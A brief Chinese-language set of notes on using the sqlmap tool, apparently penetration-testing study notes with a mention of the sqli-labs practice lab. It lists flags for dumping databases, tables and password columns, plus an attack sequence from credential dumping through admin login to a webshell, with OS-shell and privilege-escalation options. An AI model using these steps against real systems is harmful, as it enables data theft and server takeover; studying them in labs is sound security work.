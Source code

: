 # sqlmap

## 基本使用

-u 后接url地址。注意，若为sql注入的话，需要设置为浏览器与数据库有交互动作后，回显的url地址

--cookie="" 设置cookie，可以通过“检查”获得

-batch 在扫描中全部取默认选项

--dbs 查看所有库名

-D database 扫描指定库

--tables 查看所有表名

-T user 扫描指定表

--columns 查看所有列名

-dump 获取字段值

## 常规思路

来源https://bbs.ichunqiu.com/thread-29736-1-1.html?from=sec

1.获取信息

通过“sqlmap -u url”命令对注入点进行漏洞确认，然后依次进行以下命令，来获取数据库信息：

（1）列数据库信息：--dbs

（2）web当前使用的数据库--current-db

（3）web数据库使用账户 --current-user

（4）列出数据库所有用户 --users

（5）数据库账户与密码 --passwords

（6）指定库名列出所有表 -D databasename--tables

（7）指定库名表名列出所有字段-D antian365 -T admin --columns

（8）指定库名表名字段dump出指定字段

-D secbang_com -T admin -C id,password ,username --dump

-D antian365 -T userb -C&quot;email,Username,userpassword&quot; --dump



2.有root权限的情况下可以系统访问权限尝试

  --os-cmd=OSCMD//执行操作系统命令

  --os-shell //反弹一个osshell

  --os-pwn //pwn，反弹msf下的shell或者vnc

  --os-smbrelay //反弹msf下的shell或者vnc

  --os-bof //存储过程缓存溢出

  --priv-esc //数据库提权

3.通过查看管理员表，来获取管理员账号和密码，对加密账号还需要进行破解。

4.寻找后台地址并登录。

5.通过后台寻找上传漏洞，或者其它漏洞来尝试获取webshell权限。

# sqli-lab

只能使用5.4.45版本的php